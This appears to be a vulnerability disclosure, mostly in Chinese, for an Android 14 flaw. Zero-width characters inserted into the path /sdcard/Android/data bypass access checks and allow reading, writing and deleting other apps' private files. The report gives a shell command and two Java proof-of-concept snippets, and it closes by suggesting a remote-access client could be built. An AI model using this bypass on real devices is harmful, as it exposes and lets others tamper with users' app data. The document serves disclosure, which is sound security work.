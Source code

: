 # Android OS has a logical flaw in determining the Android/data access path

BUG_Author:
hujiayucc

Affected version:
Android 14

Vendor:
https://www.android.com/

Description:
Android操作系统对Android/data访问路径判断存在逻辑缺陷。
系统对Android/data路径字符串过滤没做好正确处理，黑客可以利用这个漏洞任意读取、写入、删除Android/data目录下的所以文件夹和文件。
状态：严重
漏洞环境及工具
- Android OS 14
- Termux 任意版本

复现过程
```shell
ls /sdcard/Android/data
```

执行以上代码，可以看到没有访问权限

```shell
ls /sdcard/Android$'\u200d'/data
```
但是在路径中加入\u200d，可以绕过路径判断

[![](https://oss.hujiayucc.cn/blog/OSS8uli20240603135758.png?x-oss-process=image/resize,m_fixed,h_370,w_600)](https://oss.hujiayucc.cn/blog/OSS8uli20240603135758.png)

经测试，可以对Android/data目录下的所有文件进行任意操作
[![](https://oss.hujiayucc.cn/blog/OSSLXxP20240603140135.png?x-oss-process=image/resize,m_fixed,h_370,w_600)](https://oss.hujiayucc.cn/blog/OSSLXxP20240603140135.png)

Poc1:
```java
File dir = new File("/sdcard/Android\u200d/data");
File[] files = dir.listFiles();
for (File file : files) {
    System.out.println(file);
}
```
Poc2:
```java
File dir = new File("/sdcard/\u200bAndroid/data");
File[] files = dir.listFiles();
for (File file : files) {
    System.out.println(file);
}
```

附加说明
除了**/sdcard/Android$'\u200d'/data**以外，还可以通过**/sdcard/$'\u200b'Android/data**进行越权操作

![](https://oss.hujiayucc.cn/blog/OSS9QMU20240603141624.png)

[![](https://oss.hujiayucc.cn/blog/OSSKMQe20240603141405.png?x-oss-process=image/resize,m_fixed,h_370,w_600)](https://oss.hujiayucc.cn/blog/OSSKMQe20240603141405.png)

演示视频：[点击查看](https://oss.hujiayucc.cn/videos/Screenrecorder-2024-05-25-11-36-10-451.mp4 "点击查看")
通过以上测试，可以制作一个客户端实现远程访问和修改